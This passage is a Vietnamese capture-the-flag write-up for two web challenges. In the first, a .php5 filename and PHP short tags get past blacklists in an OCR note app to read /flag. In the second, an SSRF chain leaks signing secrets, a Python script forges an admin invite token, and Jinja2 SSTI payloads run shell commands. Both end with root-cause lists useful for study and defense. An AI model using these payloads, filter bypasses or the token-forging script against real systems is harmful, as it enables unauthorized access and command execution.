Server trả về HTML kiểu:

```html
<pre>HELLO NOTE</pre> 

<form class="save-form" method="post"> 
    <input type="hidden" name="save_output" value="1"> 
    <input type="hidden" name="ocr_id" value="8f5bd99618e82a41b0f467aac97f085d"> 
    <input id="filename" name="filename" value="note.txt" maxlength="80"> </form>
```

Điểm quan trọng là app cho người dùng tự chọn filename:
```html
<input id="filename" name="filename" value="note.txt" maxlength="80">
```
Khi submit save form, text đã OCR sẽ được lưu vào:

```bash
/saved/<filename>
```

Ví dụ nếu filename là:
```
note.txt
```
thì file nằm ở:
```
/saved/note.txt
```
Vấn đề là thư mục `/saved/` nằm trong web root và file lưu ở đó có thể được truy cập trực tiếp bằng HTTP.

Ta thử lưu cùng một nội dung OCR với nhiều filename khác nhau.

Các extension bình thường được lưu:

```
good.txt      → saved
good.md       → saved
good.log      → saved
```

Các extension PHP phổ biến bị chặn:

```
shell.php     → Executable note extensions are not allowed.
shell.phtml   → blocked
shell.phar    → blocked
shell.PHP     → blocked
```

Nhưng extension cũ của PHP là `.php5` không bị chặn:

```
shell.php5    → Saved as: saved/shell.php5
```

Đây là điểm bypass đầu tiên. Nếu truy cập:

```
/saved/shell.php5
```

response có thể lộ header:

```
X-Powered-By: PHP/8.2.32
```

Điều này xác nhận server có thể thực thi file `.php5` như PHP. Nói ngắn gọn:

```
.php   bị chặn
.php5  không bị chặn nhưng vẫn được PHP handler xử lý
```

Tiếp theo, thử OCR các payload PHP đơn giản. Payload thường bị chặn:
```
<?php echo 123; ?>
```
Server báo:
```
The recognized text looks unsafe and was not saved.
```
Payload short echo cũng bị chặn:
```
<?= 123 ?>
```
Sau đó thử từng token nhỏ:

```
php       → saved
system    → blocked
eval      → blocked
```

Điều này cho thấy filter không chặn toàn bộ ký tự nguy hiểm, mà blacklist một số token cụ thể.

Các chuỗi bị chặn đáng chú ý:
```
<?php
<?=
system
eval
```
Nhưng PHP có cú pháp short open tag:
```
<? echo 123; ?>
```
Payload này không chứa `<?php` và cũng không chứa `<?=.`

Nếu PHP short tag được bật, `<? echo 123; ?>` vẫn được thực thi như PHP code.

Khi lưu payload này thành `.php5`, truy cập file sẽ thấy output:
```
123
```
Vậy ta xác nhận được:
```
.php5 bypass extension filter
<? ... ?> bypass content filter
short_open_tag đang bật
```

Không cần dùng system, eval hay command execution. Vì mục tiêu chỉ là đọc file `/flag`, ta dùng PHP include.

```php
<? include "/flag"; ?>
```

Payload này có các lợi thế:
```
Không chứa <?php
Không chứa <?=
Không chứa system
Không chứa eval
Không cần chạy shell command
```

Nếu `/flag` là file text chứa flag, `include "/flag"` sẽ đọc file và in nội dung ra response.

Tạo ảnh chứa text:

```php
<? include "/flag"; ?>
```

Upload ảnh lên OCR, sau đó save kết quả với filename:

```text
shell.php5
```

Truy cập:

```bash
curl http://<host>/saved/shell.php5
```

Response trả về flag.

### Root cause

Lỗi chính:

```text
1. Dùng extension blacklist thay vì allow-list.
2. Cho user quyết định filename.
3. Lưu file user-controlled vào web root có khả năng execute PHP.
4. Content blacklist thiếu short tag PHP.
5. PHP short_open_tag được bật.
```

**Flag**:

```
LYKNCTF{8487626135e4497f9d4ff9163be2d87a}
```

---

## 10. Web - ThinkMore

### Mô tả bài

Challenge là một portal review vendor. Chain khai thác gồm nhiều bước:

```text
SSRF qua /mirror
Truy cập internal service cache-proxy
Leak seed tạo invite token
Đọc source map nội bộ
Forge admin invite
Vào admin panel
Khai thác Jinja2 SSTI
Đọc /flag.txt
```

### Phân tích

Đầu tiên, đăng ký một tài khoản bình thường và vào `/dashboard`.

Trong dashboard có gợi ý rằng cached preview được lưu dưới dạng text response và việc render preview từ xa được giao cho một worker riêng. Đây là hint cho việc server có chức năng fetch nội dung từ URL bên ngoài.

Khi dò route, ta tìm thấy `/mirror`, route này không được link trực tiếp trong navigation của user. Form `/mirror` có các field như:

```html
<form action="/mirror" method="post">
  <input name="name">
  <input name="logo_url">
</form>
```

Khi submit, server sẽ lấy giá trị `logo_url`, tự fetch URL đó ở phía server rồi lưu response thành cached text preview.

Đây là bề mặt tấn công SSRF, vì attacker có thể ép server gửi request tới địa chỉ mình chỉ định.

```text
/mirror
```

Form này nhận `logo_url`. Server sẽ fetch URL đó ở phía server, tạo SSRF.

Thử loopback nhưng bị block:

```text
http://127.0.0.1:8080/flag
```

Thử dạng số của localhost:
```
http://2130706433:8080/flag
```
Cũng bị chặn vì numeric hostname bị block.

Nhưng filter không chặn Docker/service DNS. Gửi:

```text
http://cache-proxy:5000/
```

Response lộ thông tin nội bộ:

```text
TEAM_SLUG=vrp-alpha 
INVITE_KEY_PART=renderer-preview-seed 
BUILD_LABEL=invoice-renderer-debug 
INSTANCE_SEED=761fad0002c093ec372054eb069da5f1 DEBUG_ASSET=/static/internal-app.js.map
```

Từ đây biết được service nội bộ đang leak thông tin tạo invite token, đồng thời leak cả đường dẫn source map debug.

Tiếp tục dùng SSRF đọc source map:

```
http://cache-proxy:5000/static/internal-app.js.map
```

Các thông tin quan trọng trong source map:
```
hiddenRoute = /invite/accept
requiredScope = backoffice
requiredRole = admin
```

Source map mô tả cách tạo invite token:

```text
secret = sha256(inviteKeyPart:teamSlug:release:instanceSeed)
token = base64url(canonical_json(payload)) + "." + hmac_sha256(payload, secret)
```

Còn biến release bị thiếu thì có thể lấy từ HTTP response header của frontend:

```
X-Release: review-2026.04-teamA
```

Vậy ta có đủ 4 thành phần để tạo HMAC key:
```
inviteKeyPart = renderer-preview-seed
teamSlug      = vrp-alpha
release       = review-2026.04-teamA
instanceSeed  = 761fad0002c093ec372054eb069da5f1
```

Lúc này, attacker có thể tự forge invite token hợp lệ với role admin.

Payload invite cần forge:

```json
{
  "email": "attacker@example.com",
  "exp": 1783471548,
  "role": "admin",
  "scope": "backoffice",
  "team": "vrp-alpha"
}
```

Điểm quan trọng là JSON phải được canonicalize: key được sort, format compact, không thừa khoảng trắng.

Sau đó tính chữ ký:
```
signature = HMAC-SHA256(canonical_json(payload), derived_secret)
```
Token cuối cùng có dạng:
```
base64url(canonical_json(payload)).signature
```
Gửi token forged tới:
```
POST /invite/accept
token=<forged_token>
```

Nếu token đúng, server redirect về:
```
/admin
```

Dashboard lúc này hiển thị role của user là admin.

**Script forge invite token**

```python
import base64
import hashlib
import hmac
import json
import time

invite_key_part = "renderer-preview-seed"
team_slug = "vrp-alpha"
release = "review-2026.04-teamA"
instance_seed = "761fad0002c093ec372054eb069da5f1"

email = "attacker@example.com"

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

def canonical(obj):
    return json.dumps(obj, separators=(",", ":"), sort_keys=True).encode()

secret_raw = f"{invite_key_part}:{team_slug}:{release}:{instance_seed}"
secret = hashlib.sha256(secret_raw.encode()).digest()

payload = {
    "email": email,
    "exp": int(time.time()) + 3600,
    "role": "admin",
    "scope": "backoffice",
    "team": team_slug
}

body = canonical(payload)
sig = hmac.new(secret, body, hashlib.sha256).hexdigest()
token = b64url(body) + "." + sig

print(token)
```

Trong admin panel có billing template render bằng Jinja2. Client-side có chặn `{{` và `{%`. Nhưng đây chỉ là filter phía client. Nếu gửi request trực tiếp bằng curl, Burp hoặc script Python thì bypass được.

Test SSTI:

```python
Hello {{7*7}}
```

Kết quả:

```text
Hello 49
```

Tiếp tục kiểm tra object:

```
{{ config }}
{{ self }}
```

Kết quả cho thấy môi trường là Flask/Jinja2. Dùng payload Jinja2 để gọi Python builtins và chạy lệnh hệ thống:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Payload đọc flag:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

### Root cause

Chain này ghép từ nhiều lỗi:

```text
1. Route /mirror cho phép server-side fetch URL do user nhập.
2. SSRF filter chỉ block loopback, không block internal service DNS.
3. Internal service leak signing material.
4. Source map production lộ logic tạo invite token.
5. Invite token dùng HMAC nhưng secret bị leak.
6. Admin template render input user bằng Jinja2.
7. Chỉ chặn SSTI ở client-side.
```

---

